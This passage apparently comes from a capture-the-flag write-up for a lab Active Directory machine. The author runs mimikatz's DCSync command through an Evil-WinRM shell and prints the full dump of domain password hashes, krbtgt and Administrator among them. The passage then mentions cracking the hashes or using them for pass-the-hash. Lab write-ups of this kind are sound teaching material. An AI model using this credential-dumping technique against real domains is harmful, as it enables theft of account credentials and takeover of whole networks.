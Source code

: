 
With `mimikatz.exe` successfully uploaded onto the target host, we can now dump the password hashes.

```zsh
*Evil-WinRM* PS C:\Users\shadows\temp> .\mimikatz.exe "lsadump::dcsync /all /csv" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /all /csv
[DC] 'object.local' will be the domain
[DC] 'jenkins.object.local' will be the DC server
[DC] Exporting domain 'object.local'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502     krbtgt          a2949eeb5f9dc9e0e295c85e2ee83043        514
1104    smith           742b7f2ccff4ca60d6d378eda85b9b09        66048
1000    JENKINS$        00b9a657f83a11222f37f502324d1fb6        532480
500     Administrator   2c535031ee490da0a41327b6ed228acd        66048
1103    oliver          cae9745fc314e1586606ea8ff899b45a        66048
1106    maria           fea9359fe981f9dc1e72ee60a1a6d3ca        66048
8604    shadows         625ea59accbd163536750b2c62433cef        512

mimikatz(commandline) # exit
Bye!
```

We can see that we have successfully dumped the password hashes. We could attempt to crack these password hashes to reveal the plaintext password, or alternatively we can use the password hashes to perform Pass-the-Hash attacks.
